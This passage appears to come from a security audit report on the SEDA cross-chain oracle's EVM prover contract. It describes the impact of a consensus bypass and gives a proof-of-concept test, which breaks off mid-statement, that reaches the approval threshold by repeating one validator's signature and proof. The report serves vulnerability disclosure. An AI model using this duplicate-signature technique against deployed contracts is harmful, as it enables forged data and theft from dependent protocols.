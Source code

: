 ### Impact

The SEDA protocol suffers a complete security breakdown. Validators with minimal voting power can unilaterally approve batches, completely bypassing the consensus mechanism. This allows malicious validators to:

- Post fraudulent data results
- Update the validator set with malicious entries
- Potentially steal funds from dependent contracts that trust SEDA's data
- Undermine the foundational security assumptions of the cross-chain oracle system

### PoC

```solidity
// Add test case at: `seda-evm-contracts/test/prover/Secp256k1ProverV1.test.ts`
it('proves vulnerability scales with validator power percentage', async () => {
  // Create test fixtures with different validator power distributions
  const distributions = [
    { description: "Tiny validator (0.25%)", validatorCount: 100, validatorIndex: 1 },
    { description: "Small validator (1%)", validatorCount: 25, validatorIndex: 1 },
    { description: "Medium validator (5%)", validatorCount: 10, validatorIndex: 2 },
    { description: "Larger validator (10%)", validatorCount: 9, validatorIndex: 1 }
  ];
  
  for (const dist of distributions) {
    console.log(`\nTesting: ${dist.description}`);
    
    // Deploy with specific validator count
    const { prover: customProver, data: customData } = await deployWithSize({ validators: dist.validatorCount });
    const customWallets = customData.wallets;
    
    // Get validator power and calculate percentage
    const validatorPower = customData.validatorProofs[dist.validatorIndex].votingPower;
    const totalPower = 100000000; // Default total
    const powerPercentage = (validatorPower / totalPower) * 100;
    console.log(`Validator has ${validatorPower} voting power (${powerPercentage.toFixed(2)}% of total)`);
    
    // Create batch and sign with this validator
    const { newBatchId, newBatch } = generateNewBatchWithId(customData.initialBatch);
    const signature = await customWallets[dist.validatorIndex].signingKey.sign(newBatchId).serialized;
    
    // Verify single signature doesn't reach consensus
    try {
      await customProver.postBatch(newBatch, [signature], [customData.validatorProofs[dist.validatorIndex]]);
      console.log("ERROR: Single signature was enough - test invalid");
    } catch (e) {
      // Calculate required duplicates
      const consensusThreshold = 66_670_000; // 66.67%
      const duplicatesNeeded = Math.ceil(consensusThreshold / validatorPower);
      console.log(`Need ${duplicatesNeeded} duplicates to reach consensus threshold`);
      
      // Prepare duplicated arrays
      const signatures = Array(duplicatesNeeded).fill(signature);
      const duplicatedProofs = Array(duplicatesNeeded).fill(customData.validatorProofs[dist.validatorIndex]);
      
      const [batchSender] = await ethers.getSigners();
      
      // Demonstrate exploit
      await expect(customProver.postBatch(newBatch, signatures, duplicatedProofs))
```